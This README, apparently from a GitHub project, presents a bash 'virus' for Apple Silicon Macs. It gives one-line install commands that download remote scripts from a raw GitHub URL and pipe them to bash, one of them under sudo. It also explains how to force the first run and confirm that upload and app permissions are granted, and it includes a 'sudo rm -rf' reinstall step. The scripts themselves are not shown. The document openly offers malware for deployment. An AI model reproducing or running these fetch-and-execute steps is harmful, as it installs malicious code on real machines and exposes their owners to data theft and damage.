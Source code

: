#史上第一款，MacOS M系列病毒，100%纯bash（需要手动给予权限/nclick exploit）#

首次设置
---
`sudo curl -fsSL https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/humaninter.sh | bash`

一键启动
---
`wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

(一键启动之后建议先CTRL+C然后把~/programfiles/time.txt文件vim一下往后调3个小时，让他先强制运行一遍，确认上传+权限Terminal已经给好。然后重启电脑，确认DL.app也拥有相应权限。之后建议把Time再改回来然后直接重启。）

一键启动如果出现无法启动，没有下载完全等bug请用一下指令修复

`sudo rm -rf ~/programfiles && wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`
